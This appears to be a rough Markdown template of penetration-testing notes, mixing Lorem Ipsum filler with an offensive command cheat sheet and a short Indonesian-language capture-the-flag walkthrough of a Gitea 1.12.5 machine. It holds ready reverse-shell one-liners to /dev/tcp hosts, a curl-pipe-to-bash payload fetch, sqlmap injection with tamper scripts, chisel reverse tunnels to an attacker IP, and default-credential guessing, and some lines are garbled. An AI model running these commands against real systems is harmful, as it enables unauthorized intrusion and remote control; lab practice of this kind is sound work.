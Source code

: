 Command
# Header 1

## Header 2

Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.

![Alt text](images/user.jpg)

Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.

Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.

- nmap -sC -sV -oN enum.nmap -p- -T4 --min-rate=1000 -v  (nmapx)
- dirb http://10.1.2.152 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o diretory.dirb (dirbx)
- sqlmap -r inject --dbs --level 4 --risk 3 --threads 10 --tamper=space2comment,between,randomcase (sqlmapx)

- nc -lvnp 9001
- python -c 'import pty;pty.spawn("/bin/bash")';
- bash -c 'bash -i >& /dev/tcp/CHANGE-THIS/9001 0>&1'
- sudo python3 -m http.server 80
- curl 127.0.0.1/shell.sh | bash
- ps -efa --forest


### Header 3
Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.

for i in $(seq 254); do ping 10.1.2.${i} -c1 -W1 & done | grep from
for i in {1.255}; do (ping -c 1 10.1.2.${i} | grep "bytes from"&); done

for i in $(seq 254); do ping 10.1.2.${i} -c1 -W1 & done | grep from
chisel server --socks5 --reverse
./chisel client --fingerprint &lt;Fingerprint&gt; &lt;Attacker IP&gt;:8080 R:8000:&lt;Internal IP&gt;:80

./chisel client --fingerprint &lt;Fingerprint&gt; &lt;Attacker IP&gt;:8080 R:socks

Payload

```
test
asda
```

Set alias

```
Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum.
```

- nmap
- buka port 3000 gitea
- coba guessing password dengan username yang ada
username: askira
password: askira
- mencari kerentanan pada layanan gitea versi 1.12.5
- menggunakan module metasploit untuk memasukan reverse shell
    - listening port 9001 pada local machine
    nc -lvnp 9001
    - memasukan code reverse shell pada target machine
    bash -c 'bash -i >& /dev/tcp/10.18.200.73/9001 0>&1'
    - mengambil flag user.txt
    ![Alt text](images/user.jpg)
